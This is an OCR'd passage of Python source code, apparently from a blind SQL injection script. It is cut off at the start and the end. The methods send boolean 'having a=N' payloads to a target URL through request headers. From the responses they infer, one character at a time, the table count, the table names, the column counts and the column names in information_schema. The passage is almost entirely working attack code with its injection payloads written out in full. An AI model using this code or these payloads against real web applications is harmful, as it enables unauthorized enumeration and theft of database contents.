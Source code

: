 ```python
        else:
            print("\ncan not get the table_num")           
    def get_table_length(self):
        for i in range(1,50):
            self.process('get_table_length',i,50)
            payload = "1' and (select length(group_concat(table_name)) as a from information_schema.tables where table_schema=database() having a={0})#".format(str(i))
            html = self.s.get(self.url,headers=self.get_headers(payload)).text
            if self.check(html):
                self.table_length.append(i)
                break
        if self.table_length[0] > 0:
            print('\n==>',self.table_length)
        else:
            print('\ncan not get the table_length')
    def get_table_name(self):
        name = ''
        for i in range(1,self.table_length[0]+1):
            for j in self.zifuji:
                self.process('{0} get_table_name'.format(i),j,50)
                payload = "1' and (select ascii(substring(group_concat(table_name),{0},1)) as a from information_schema.tables where table_schema=database() having a={1})#".format(str(i),str(j))
                html = self.s.get(self.url,headers=self.get_headers(payload)).text
                if self.check(html):
                    name += chr(j)
                    break
            if len(name) != i:
                name += '|'
        if len(name) > 0:
            print('\n==>',name)
            self.table_name.append(name)
        else:
            print('\ncan not get the table_name')
    def get_column_num(self,table_name):
        self.column_num = 0
        for i in range(1,30):
            self.process('get_column_num',i,30)
            payload = "1' and (select count(column_name) as a from information_schema.columns where table_schema=database() and table_name='{0}' having a={1})#".format(table_name,str(i))
            html = self.s.get(self.url,headers=self.get_headers(payload)).text
            if self.check(html):
                self.column_num = i
                break
        if self.column_num > 0:
            print('\n==>',self.column_num)
    def get_column_length(self,table_name):
        for i in range(1,100):
            self.process('get_column_length',i,100)
            payload = "1' and (select length(group_concat(column_name)) as a from information_schema.columns where table_schema=database() and table_name='{0}' having a={1})#".format(table_name,str(i))
            html = self.s.get(self.url,headers=self.get_headers(payload)).text
            if self.check(html):
                self.column_length.append(i)
                break
        if len(self.column_length) >= 1:
            print('\n==>',self.column_length)
        else:
            print('\ncan not get the column_length')
    def get_column_name(self,table_name):
        name = ''
        for i in range(1,self.column_length[0]+1):
            for j in self.zifuji:
```